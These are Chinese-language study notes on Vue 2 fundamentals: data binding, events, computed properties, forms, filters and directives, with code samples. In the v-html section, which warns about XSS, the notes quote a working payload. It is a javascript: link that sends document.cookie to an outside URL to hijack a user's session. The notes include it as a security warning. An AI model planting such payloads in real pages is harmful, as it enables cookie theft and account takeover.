

# Vue 全家桶学习

vue2 review  
vue3 learning

# 特点

1. 采用组件化的形式，提高代码复用率，让代码更好维护
2. 声明式编码，让编程人员无需直接操作 DOM 提高开发效率 （传统 JavaScript 需要一步一步操作dom 包含拼接HTML之类的操作）
3. 新增虚拟 DOM 优化数据变更之后的操作
   
   当数据变化之后 虚拟 DOM 中使用 Diff 将之前的代码与之前内存中渲染的数据进行比较
4. 模板和数据绑定 组件化和虚拟 DOM

# Vue2 基础内容

## Vue 对象在单个页面上的创建

一般而言一个页面上创建一个 Vue 实例对象 通过 el 将 vue 实例对象与页面容器进行绑定

```javascript
  Vue.config.productionTip = false;
new Vue({
    el: '#root',  // el 用于指定当前 vue实例对象为哪个容器服务
    data: {
        //  数据供 el 指定的容器所使用 （古希腊掌管容器数据的神） 在组件的时候通常使用函数
        message: 'the fucking world'
    },
});
```

## 插值语法与指令语法
Vue模板语法有2大类：

1.插值语法：
功能：用于解析标签体内容。
写法：{{xxx}}，xxx是js表达式，且可以直接读取到data中的所有属性。

2.指令语法： 
功能： 用于解析标签（包括：标签属性、标签体内容、绑定事件.....）。
举例：v-bind:href="xxx" 或  简写为 :href="xxx"，xxx同样要写js表达式， 
且可以直接读取到data中的所有属性。

备注：Vue中有很多的指令，且形式都是：v-????，此处我们只是拿v-bind举个例子。
## 数据绑定
1.单向绑定(v-bind)：数据只能从data流向页面。

2.双向绑定(v-model)：数据不仅能从data流向页面，还可以从页面流向data。

备注：

1. 双向绑定一般都应用在表单类元素上（如：input、select等）

2. v-model:value 可以简写为 v-model，因为v-model默认收集的就是value值。

3. 双向数据绑定 v-model 只能用于带有 value 属性的标签中
## el 与 data 的两种写法

在 vue 创建实例对象内部有两种写法：
1. 直接在对象的配置中写 el标签 通过 el 将当前实例对象与容器进行绑定
2. 用 vm 接收当前实例对象通过 vm.$mount('#容器名称') 的方法将对应的实例对象挂在到容器上

data 域也有两种写法：
1. 配置 data:{} 对象，将对应的信息直接写在配置中 
2. 通过 data(){} 函数 return{对象} 需要返回的数据
```javascript
 const vm = new Vue({
        // el: '#root',
        //  data 对象式写法
        // data: {
        //     title: '数据单项绑定',
        //     nameSingle: '2222',
        //     nameDouble: '1111'
        // }
        //   组件化的写法
        data: function () {
            return {
                title: '数据单项绑定',
                nameSingle: '2222',
                nameDouble: '1111'
            }
        }
    });
    console.log(vm);
    setTimeout(() => {
        // 通过 mount 将对应的  vue 实例挂在到页面容器上
        vm.$mount('#root')
    },2000)
```
## MVVM 模型
MVVM模型
1. M：模型(Model) ：data中的数据 
2. V：视图(View) ：模板代码
3. VM：视图模型(ViewModel)：Vue实例 

观察发现： 

1.data中所有的属性，最后都出现在了vm身上。 

2.vm身上所有的属性 及 Vue原型上所有属性，在Vue模板中都可以直接使用。


VM 模型的两大作用 事件监听 和 数据绑定 
## defineProperty 方法
在 JavaScript 中 可以通过 `Object.defineProperty` 方法给对应的对象新增数据属性 

通常这些新增的数据属性中 含有其他配置项
```javascript
<script type="text/javascript">
    let age = 78;
    let person = {
        name: '张三',
        gender: 'male',
    };
    //  使用 defineProperty 方法 新增数据属性
    Object.defineProperty(person, 'age', {
        // value: 18,
        // enumerable:true,        //  通过 defineProperty 方法新增的属性可遍历
        // writable: true,         //  通过 defineProperty 方法新增的属性可修改
        // configurable: true,       //  通过 defineProperty 方法新增的属性可配置删除

        // defineProperty 方法提供与 Java的对象 相同的 getter 和 setter  方法
        get: function () {
            console.log('程序读取当前对象的age属性');
            return age;
        },
        set(value) {
            console.log('程序对age属性进行设置');
            age = value;
        }
    });

    console.log(person);
    // 遍历 person 所有属性
    let keys = Object.keys(person);
    console.log('所有属性：', keys);

</script>
```
当 程序读取和修改 新增属性的时候会调用 defineProperty 定义的对象中的  getter 和 setter 

就像 Java 中的修改对象属性一样 

## Vue中的数据代理 
1.Vue中的数据代理：

通过vm对象来代理data对象中属性的操作（读/写）

2.Vue中数据代理的好处：

更加方便的操作data中的数据

3.基本原理：

通过Object.defineProperty()把data对象中所有属性添加到vm上。 为每一个添加到vm上的属性，都指定一个getter/setter。
							
在getter/setter内部去操作（读/写）data中对应的属性。
## 事件
事件的基本使用：

1.使用 **v-on:xxx**  或 **@xxx** 绑定事件，其中xxx是事件名；

2.事件的回调需要配置在methods对象中，最终会在vm上；

3.methods中配置的函数，**不要用箭头函数**！否则this就不是vm了；

4.methods中配置的函数，都是被Vue所管理的函数，this的指向是 **vm** 或  **组件实例对象**；

5.@click="demo" 和 @click="demo($event)" 效果一致，但后者可以传参；

在调用事件的时候 不写事件的参数列表的情况下 传递的是当前事件本身作为参数 

### 事件修饰符
Vue中的事件修饰符：

1.prevent：阻止默认事件（常用）；

2.stop：阻止事件冒泡（常用）；

3.once：事件只触发一次（常用）；

4.capture：使用事件的捕获模式；

5.self：只有event.target是当前操作的元素时才触发事件；

6.passive：事件的默认行为立即执行，无需等待事件回调执行完毕；

```html
<div id="root">
    <div @click="showInfo" style="width: 400px;height: 200px; background-color:skyblue;">
        <!--阻止事件冒泡-->
        <div @click.stop="showInfo" style="width: 400px;height: 30px; background-color:pink;"></div>
    </div>
    <br>
    <!--阻止标签的默认行为-->
    <a href="http://www.atguigu.com" @click.prevent="showInfo">进入尚硅谷进行学习</a> <br>
    <!--阻止标签行为原生写法-->
    <a href="http://www.atguigu.com" @click="preventDefaultAction($event)">进入尚硅谷进行学习</a>

    <!--事件绑定的时候从父元素向子元素进行捕获 先执行父元素的事件再执行子元素的事件-->
    <!-- 通过 capature 在事件的捕获阶段就执行绑定的函数-->
    <div @click.capture="showInfo(1)" style="width: 600px;height: 600px;background-color:lightpink;">
        <div @click="showInfo(2)" style="width: 300px;height: 300px;background-color:lightsalmon;"></div>
    </div>

</div>
<script type="text/javascript">
   const vm = new Vue({
      el: '#root',
      data: {},
      methods: {
         showInfo(num) {
            alert('展示提示信息' + num)
         },
         preventDefaultAction(event) {
            event.preventDefault()  //  阻止标签本身的行为
            console.log('通过preventDefault 方法阻止事件的默认行为 ');
         }
      }
   });
</script>
```
### 键盘事件

1.Vue中常用的按键别名：

回车 => enter

删除 => delete (捕获“删除”和“退格”键)

退出 => esc

空格 => space

换行 => tab (特殊，必须配合keydown去使用)

上 => up

下 => down

左 => left

右 => right

2.Vue未提供别名的按键，可以使用按键原始的key值去绑定，但注意要转为kebab-case（短横线命名）

3.系统修饰键（用法特殊）：ctrl、alt、shift、meta

(1).配合keyup使用：按下修饰键的同时，再按下其他键，随后释放其他键，事件才被触发。

(2).配合keydown使用：正常触发事件。

4.也可以使用keyCode去指定具体的按键（不推荐）

5.Vue.config.keyCodes.自定义键名 = 键码，可以去定制按键别名

接下来是一个 按住 ctrl + y 才显示数据的事件 

**事件修饰符可以连着写，在下面这种案例中 ctrl + y 连写达到先按下 ctrl 再按下 y 才能触发事件的效果**
```html
<div id="root">
    <div>
        <div></div>
    </div>
    <input type="text" @keydown.ctrl.y="showContentCustom" v-model="content">
</div>
<script type="text/javascript">
   const vm = new Vue({
      el: '#root',
      data: {
         content: ''
      },
      methods: {
         showInfo(e) {
            console.log('显示事件信息', e);
            console.log('键盘按键名称：', e.key, '键盘按键编码：', e.keyCode);
         },
         showContentPrimary(e) {
            //  按下回车显示数据 原生写法 通过keyCode 进行判断
            if (e.keyCode != 13) return;
            console.log('显示数据：', this.content);
         },
         //  使用事件修饰符修饰键盘事件
         showContentVue() {
            console.log(this.content);
         },
         // 需求 按下 ctrl + y 才显示input 中的文本内容
         showContentCustom() {
            console.log('调用csutom方法：',this.content);
         }
      }
   });
</script>
```
## 计算属性
计算属性：
1.定义：要用的属性不存在，要通过已有属性计算得来。

2.原理：底层借助了Objcet.defineproperty方法提供的getter和setter。

3.get函数什么时候执行？

(1).初次读取时会执行一次。

(2).当依赖的数据发生改变时会被再次调用。

4.优势：与methods实现相比，内部有缓存机制（复用），效率更高，调试方便。

5.备注：

1.计算属性最终会出现在vm上，直接读取使用即可。

2.如果计算属性要被修改，那必须写set函数去响应修改，且set中要引起计算时依赖的数据发生改变。
```javascript
<div id="root">
    姓：<input type="text" v-model="firstName"> <br><br>
    名：<input type="text" v-model="lastName"> <br><br>
    全名：<span>{{firstName + '-' + lastName}}</span>
    <br>
    全名（计算属性）：<span>{{fullName}}</span>
    测试：<input type="text" v-model="fullName"> <br><br>
</div>
</body>
<script type="text/javascript">
    const vm = new Vue({
        el: '#root',
        data: {
            firstName: '张',
            lastName: '三'
        },
        methods: {},
        computed: {
            fullName: {
                //  当程序读取 fullName get 方法会被调用 而且返回值作为 fullName的值
                // get 调用时机：1. 初次读取 fullName   2. 所依赖的数据发生变化的时候
                //  自动获取这个对象的返回值 添加到 vm 对象上
                get() {
                    return this.firstName + '-' + this.lastName;
                },
                //  当 fullName 被修改时调用
                set(value) {
                    let split = value.split('-');
                    this.firstName = split[0];
                    this.lastName = split[1];
                }
            }
        }
    });
</script>
```
### 计算属性简写
直接将计算属性写成一个函数，相当于这个属性对象的 getter 
```html
<div id="root">
    姓：<input type="text" v-model="firstName"> <br><br>
    名：<input type="text" v-model="lastName"> <br><br>
    全名：<span>{{fullName}}</span>
</div>
</body>
<script type="text/javascript">
    const vm = new Vue({
        el: '#root',
        data: {
            firstName: '张',
            lastName: '三'
        },
        methods: {},
        computed: {
            //  使用计算属性的简写默认不使用 set 方法
            //  这个计算属性对象可以简写成一个函数 其实就是写的就是这个对象的 getter
            fullName() {
                return this.firstName + '-' + this.lastName;
            }
        }
    });
</script>
```
## 监视


## 列表渲染 

> 为什么在 v-for 的时候一定要指定 对应的 key（用数据自己返回的唯一标识）


在打乱数据插入顺序的场景下会产生这个问题

有了数据唯一标识之后 新添加的数据元素在虚拟 DOM 中会与之前的 虚拟元素进行对比，可以根据数据唯一值 key 判断哪些元素是可以复用的 ，哪些元素不是可以复用的 
v-for 默认添加 `index` 作为唯一标识


## 表单数据收集

**收集表单数据基本要点**：

* 若：<input type="text"/>，则v-model收集的是value值，用户输入的就是value值。
* 若：<input type="radio"/>，则v-model收集的是value值，且要给标签配置value值。
* 若：<input type="checkbox"/>
  1. 没有配置input的value属性，那么收集的就是checked（勾选 or 未勾选，是布尔值）
  2. 配置input的value属性:
     1. v-model的初始值是 **非数组**，那么收集的就是 **checked**（勾选 or 未勾选，是布尔值）
     2. v-model的初始值是 **数组**，那么收集的的就是 **value** 组成的数组

备注：v-model的三个修饰符：
			lazy：失去焦点再收集数据
			number：输入字符串转为有效的数字
			trim：输入首尾空格过滤

​			在表单 `@submit.revent` 指定表单的提交方法 并组织默认的提交行为 

对应的 form 表单代码

```html
<form @submit.prevent="handleSubmit">
        <!--trim 后缀在通过 v-model 收集数据的时候可以将用户在表单中输入的 空格去除-->
        <label for="account">账户：</label> <input id="account" type="text" v-model.trim="userInfo.account"> <br><br>
        <label for="password">密码：</label> <input id="password" type="password" v-model.trim="userInfo.password">
        <br><br>
        <!--使用 type="number" 是通过原生的方式让用户只允许输入整数  v-model.number 后缀对应了data域中的 数据类型 vue 在获取的时候获取的是数字 -->
        <label for="age">年龄：</label> <input id="age" type="number" v-model.number="userInfo.age"> <br><br>
        性别：
        <input type="radio" value="male" name="sex" v-model="userInfo.sex">
        <input type="radio" value="female" name="sex" v-model="userInfo.sex">
        <br><br>
        爱好：
        <input type="checkbox" value="study" v-model="userInfo.hobby"> 学习
        <input type="checkbox" value="sleep" v-model="userInfo.hobby"> 睡觉
        <input type="checkbox" value="game" v-model="userInfo.hobby"> 打游戏
        <br><br>
        所在地区：
        <select name="distinction" id="distinction" v-model="userInfo.distinction">
            <option value="">请选择所在地区</option>
            <option value="beijing">北京</option>
            <option value="shanghai">上海</option>
            <option value="shenzhen">深圳</option>
            <option value="nanjing">南京</option>
        </select>
        <br><br>
        <!--使用 “懒加载” 的方法收集数据 当前元素失去焦点的时候才收集数据 而不是元素 value 值发生变化的时候马上收集-->
        其他信息：<textarea name="" id="otherInfo" cols="30" rows="10" v-model.lazy="userInfo.otherInfo"></textarea>
        <br><br>
        <input type="checkbox" v-model="userInfo.accept"> 已阅读并同意 <a href="">用户协议</a>
        <br><br>
        <button>提交</button>
    </form>
```

## 过滤器

**过滤器**：

作用：对要显示的数据进行特定格式化后再显示（适用于一些简单逻辑的处理）。
语法：

```
1.注册过滤器：Vue.filter(name,callback) 或 new Vue{filters:{}}   				(全局过滤器注册||局部过滤器注册)
2.使用过滤器：{{ xxx | 过滤器名}}  或  v-bind:属性 = "xxx | 过滤器名"	 (一般通过插值表达式和v-bind指令不可使用 v-model 之类的其他指令)
```

备注：

1. 过滤器也可以接收额外参数、多个过滤器也可以串联 
2. 过滤器并没有改变原本的数据, 是产生新的对应的数据

局部过滤器和全局过滤器示例代码：

```javascript
    //	局部过滤器 作为 一个配置对象写在 Vue 实例或者组件的内部   
	filters: {
            timeFormatter(value,strFormat = 'YYYY年MM月DD日'){
                return dayjs(this.time).format(strFormat)
            }
        }
    //  全局 Vue 过滤器  在 vue 对象加载之前完成声明
    Vue.filter('myStrSlice',function (text) {
        return text.slice(0,4)
    })
```

## Vue 内置指令

### 基础指令

* v-bind	: 单向绑定解析表达式, 可简写为 :xxx
* v-model	: 双向数据绑定
* v-for  	: 遍历数组/对象/字符串
* v-on   	: 绑定事件监听, 可简写为@
* v-if 	 	: 条件渲染（动态控制节点是否存存在）
* v-else 	: 条件渲染（动态控制节点是否存存在）
* v-show 	: 条件渲染 (动态控制节点是否展示)

### v-text

1.作用：向其所在的节点中渲染文本内容。
2.与插值语法的区别：v-text会替换掉节点中的内容，{{xx}}则不会。

### v-html

1. 作用：向指定节点中渲染包含html结构的内容。

   与插值语法的区别： 

1. v-html会替换掉节点中所有的内容，{{xx}}则不会。
2. v-html可以识别html结构。 v-text 不可以 
3. **严重注意：v-html有安全性问题**！！！！
   1. 在网站上动态渲染任意HTML是非常危险的，容易导致XSS攻击。
   2. 一定要在可信的内容上使用v-html，永不要用在用户提交的内容上！		

可以通过 `v-html`在页面上渲染类似于 这样的代码

```json
url: '<a href=javascript:location.href="http://www.baidu.com?"+document.cookie>兄弟我找到你想要的资源了，快来！</a>'
```

欺骗用户点击超链接从而盗取目标用户的 cookie 模拟目标用户的登录行为 或者获取操作权限

cookie 在 开发者工具中可以查看



### v-cloak

* 本质是一个特殊属性，Vue实例创建完毕并接管容器后，会删掉v-cloak属性。
* 使用css配合v-cloak可以解决网速慢时页面展示出{{xxx}}的问题。

常用的场景是在 **从外部引入或者网速过慢** 导致 vue 引入过慢的情况 可以 **避免页面展示插值表达式** 或者 **其他不想展示的被 Vue 管理的内容**

```html
<style type="text/css">
    [v-cloak] {
        display: none;
    }
</style>
<body>
<div id="root">
    <h2 v-cloak>显示当前，{{message}}</h2>
</div>
<!--延时五秒钟引入 Vue -->
<script type="text/javascript" src="http://localhost:8080/resource/5s/vue.js"></script>
</body>
<script>
    Vue.config.productionTip = false;
    new Vue({
        el: '#root',
        data: {
            message: '内容content',
        },
    });
</script>
```

* 通过设置 带有 `v-cloak` 属性的元素 display 属性为 null 可以 让对应的被 Vue 管理的 元素内容不显示

* 当 Vue 实例初始化完成之后会自动删除  `v-cloak` 属性

### v-once

* v-once所在节点在初次动态渲染后，就视为静态内容了
* 以后数据的改变不会引起v-once所在结构的更新，可以用于优化性能。

```javascript
<body>
<div id="root">
    <h2>显示当前：{{n}}</h2>
    <h2 v-once>只加载一次 显示初始值 {{n}}</h2>
    <button @click="n++">+</button>
</div>
</body>
<script>
    Vue.config.productionTip = false;
    new Vue({
        el: '#root',
        data: {
            message: '内容content',
            n: 1
        },
    });
</script>
```

### v-pre

* 跳过其所在节点的编译过程。
* 可利用它跳过：没有使用指令语法、没有使用插值语法的节点，会加快编译。
* 一般用于没有被 Vue 管理的元素上 此时 Vue 在解析模板的时候就不会解析这个元素中的内容 提升加载速度

## 自定义指令

可以通过在 Vue 实例代码中写一些配置项代码 创建自定义指令 通过 `v-` 指令名称 的方式进行引用 

使用 `detectives` 配置项创建指令 可以使用 配置项中的三个回调函数 决定 自定义指令的行为 ：

**案例代码**

局部自定义指令

```javascript
        directives: {
           	//	将 v-big 作用的对象 内部显示的值 （绑定的值） 修改为原来的10倍 
            //	函数式
            big(element, binding) {
                element.innerText = binding.value * 10
            },
            //	配置对象式定义指令
            fbind: {
                bind(element, binding) {
                    element.value = binding.value
                },
                inserted(element,binding) {
                    element.focus()
                },
                update(element, binding) {
                     element.value = binding.value
                }
            }
        }
```

全局自定义指令

```javascript
    Vue.directive('fbind',{
        bind(element, binding) {
            element.value = binding.value
        },
        inserted(element,binding) {
            element.focus()
        },
        update(element, binding) {
            element.value = binding.value
        }
    })
```

| 函数名称 | 执行时间                           |
| -------- | ---------------------------------- |
| bind     | 指令与元素成功绑定时调用。         |
| inserted | 指令所在元素被插入页面时调用。     |
| update   | 指令所在模板结构被重新解析时调用。 |

在标签上使用的时候是通过 `v-指令名称=‘参数’ `的方式进行引用的，比如下面的案例 使用的 就是 n 作为参数

```html
    <h2>当前 n 值 ：{{n}}</h2>
    <h2>放大后的 n 值 ：<span v-big='n'>{{n}}</span></h2>
    <hr>
    自定义指令获取焦点：<input type="text" v-fbind="n">
    <button @click="n++">点我 n+1</button>
```

**备注：**	

1. 指令定义时不加v-，但使用时要加v-；
2. 指令名如果是多个单词，要使用kebab-case命名方式，不要用camelCase命名。		

## 生命周期


